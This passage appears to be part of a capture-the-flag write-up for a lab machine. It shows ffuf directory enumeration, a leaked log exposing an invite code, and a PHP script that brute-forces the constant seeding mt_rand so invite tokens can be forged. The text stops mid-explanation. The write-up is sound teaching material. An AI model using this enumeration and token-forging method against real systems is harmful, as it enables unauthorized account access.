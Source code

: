 It looks like we can forge our own invite code! This is because ```mt_srand()``` will always output the same number for a given seed. To get the seed we need a constant value and... an email?
<br>
My first instinct was to use a random email, but apparently it needs to be registered first...

### Enumerating with ffuf: there's hope! {#Enumerating-with-ffuf-theres-hope}
After multiple espressos I remembered what my mamma always used to say
> <i>"If you get stuck, try to enumerate the stack"  </i>

Thanks mamma! Let's see if ffuf brings anything useful by executing the following command:
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u http://[MACHINE_IP]:1337/FUZZ
```
Once done, we can see a very interesting endpoint: ```/log```
<br>
On this page, we can see an ```app.log``` file, which once clicked shows the following information:
```
2025-01-23 14:32:56 - User POST to /index.php (Login attempt)
2025-01-23 14:33:01 - User POST to /index.php (Login attempt)
2025-01-23 14:33:05 - User GET /index.php (Login page access)
2025-01-23 14:33:15 - User POST to /index.php (Login attempt)
2025-01-23 14:34:20 - User POST to /index.php (Invite created, code: MTM0ODMzNzEyMg== for alpha@fake.thm)
2025-01-23 14:35:25 - User GET /index.php (Login page access)
2025-01-23 14:36:30 - User POST to /dashboard.php (User alpha@fake.thm deactivated)
2025-01-23 14:37:35 - User GET /login.php (Page not found)
2025-01-23 14:38:40 - User POST to /dashboard.php (New user created: hello@fake.thm)
```
Now not only do we have a fresh email to hack, but we can also use the token for ```alpha@fake.thm``` to bruteforce the constant needed (```$constant_value```) in the php code mentioned before. Let's get forging!

### Accessing the user account, first flag! {#Accessing-the-user-account-first-flag}
To forge our token for ```hello@fake.thm```, we first need to find what the ```$constant_value``` variable is. To do this, I am going to change a bit the script in the API documentation and try to bruteforce it using the token we already have, the one for ```alpha@fake.thm```.

Here is the php code I used:
```php
<?php

$email = "alpha@fake.thm"; 
$constant_value = 0;

for ($constant_value = 0; $constant_value < 100000; $constant_value++) {
    $seed_value = hexdec(strlen($email) + $constant_value + hexdec(substr($email, 0, 8)));

    mt_srand($seed_value);
    $random = mt_rand();
    $invite_code = base64_encode($random);

    if ($invite_code == "MTM0ODMzNzEyMg==") {
        echo $constant_value;
    } 
}

?>

```
Now you might be wondering, why did I choose 100000 instead of something smaller? 
<br>